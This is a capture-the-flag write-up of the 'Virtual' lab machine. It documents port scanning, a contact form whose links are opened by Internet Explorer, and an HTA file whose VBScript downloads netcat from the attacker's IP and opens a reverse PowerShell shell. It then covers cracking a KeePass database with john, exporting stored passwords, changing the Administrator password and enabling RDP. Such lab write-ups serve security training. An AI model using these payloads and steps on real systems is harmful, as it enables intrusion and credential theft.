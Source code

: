 ## Virtual

### User flag

```bash
$ nmap -sS -sV -Pn -n -p- -T5 10.129.1.26

Nmap scan report for 10.129.1.26
Host is up (0.023s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE       VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) PHP/8.0.8)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

For this challenge, we were given a web application listening on the port 8080, hosted on Windows, that provided a contact form with the indication "`We usually respond to queries after a few minutes`":
![Virtual web](../img/virtual_1.png)

We noticed we could send arbitrary links that ended being browsed by Internet Explorer. For example, by submitting the form with the message `http:///10.10.14.65:8080/aa`, we received the following request:
```bash
$ nc -nlvp 8080

GET /aa HTTP/1.1
Accept: /
Accept-Language: en-US
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
Host: 10.10.14.65:8080
Connection: Keep-Alive
```

After playing a bit with JavaScript, we tried to provide an HTML Application (HTA) to Internet explorer, and we were surprised it worked.

We then submitted another HTML Application that downloaded and executed a pre-built *netcat* binary in order to spawn a reverse shell on the box:

```bash
$ cat index.hta

<html>
<head>
<script language="VBScript">
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "powershell curl http://10.10.14.65:8080/nc.exe -o C:/Windows/Temp/nc.exe; C:/Windows/Temp/nc.exe 10.10.14.65 9999 -e powershell.exe"
    End Sub
RunProgram()
</script>
</head>
<body>
    Nothing to see here..
</body>
</html>

$ python3 -m http.server 8080

POST / HTTP/1.1
Host: 10.129.1.26
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

name=b&email=aa%40aa.com&subject=a&message=http%3A%2F%2F10.10.14.65%3A8080%2Findex.hta
```

Once the application was ran by Internet Explorer, we received a reverse shell. 

We noticed we were already local Administrator. However, there was only a user flag on the file system:

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.1.26] 49632
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Apache24\htdocs>> whoami /all
whoami /all

USER INFORMATION
----------------
User Name             SID                                         
===================== ============================================
virtual\administrator S-1-5-21-1926016034-1676465966-846418798-500

GROUP INFORMATION
-----------------
Group Name                                                    Type             SID                                           Attributes                                                     
============================================================= ================ ============================================= ===============================================================
Everyone                                                      Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114                                     Mandatory group, Enabled by default, Enabled group             
VIRTUAL\docker-users                                          Alias            S-1-5-21-1926016034-1676465966-846418798-1000 Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                                        Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
[...]

PS C:\Users\dev\Desktop> type user.txt
type user.txt
HTB{9077a_l0ve_H7a}
```

### Root flag

When searching for the root flag, we noticed multiple interesting files and directories:

* C:\Users\dev\Documents\\Database.kdbx
* C:\Users\Administrator\\.docker
* C:\Users\Administrator\\.minikube
* C:\Users\Administrator\\.VirtualBox

The KeePass database was protected by a password so we cracked it using john:

```bash
$ keepass2john Database.kdbx > hashes.lst

$ john --wordlist="SecLists/Passwords/Leaked-Databases/rockyou-75.txt" hashes.lst 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
purple           (Database)
1g 0:00:00:00 DONE (2021-07-27 03:16) 5.555g/s 200.0p/s 200.0c/s 200.0C/s sunshine..justin
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The database contains a custom entry named `Docker Server`:

```bash
$ keepassxc-cli export Database.kdbx  -f csv
Enter password to unlock Database.kdbx: purple

"Group","Title","Username","Password","URL","Notes"
"Database","Sample Entry","User Name","Password","https://keepass.info/","Notes"
"Database","Sample Entry #2","Michael321","12345","https://keepass.info/help/kb/testform.html",""
"Database/Network","Docker Server","dev","VeryStrongPassword1!","",""
```

We listed the VirtualBox machines belonging to the Administrator user:

```bash
PS C:\Program Files\Oracle\VirtualBox> ./VBoxManage list vms
"Docker" {11bdf380-f3ae-422e-92f7-6f0f816743d1}
```

As we noticed a Docker VM running on VirtualBox, we decided to set up an RDP access in order to easily interact with the VM. To do so, we enabled RDP and we changed the local Administrator password:

```bash
PS> net user Administrator Test1234
net user Administrator Test1234
The command completed successfully.

PS> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

Finally, we logged in using the RDP access, and we authenticated as `dev` on the Docker VM's console with the password `VeryStrongPassword1!` that was stored on the KeePass:

```bash
$ xfreerdp /u:Administrator /p:'Test1234' /v:10.129.1.26
[03:31:09:044] [9943:9944] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
```
 
![Docker VM graphical console](../img/virtual_2.png)

The `dev` user was on the sudoers so it was allowed to escalate its privileges to `root` inside the VM and to read the root flag:

![Docker VM graphical console logged in](../img/virtual_3.png) 

From the screen, we read `HTB{v80X_G0t_m4n4g3d}`.
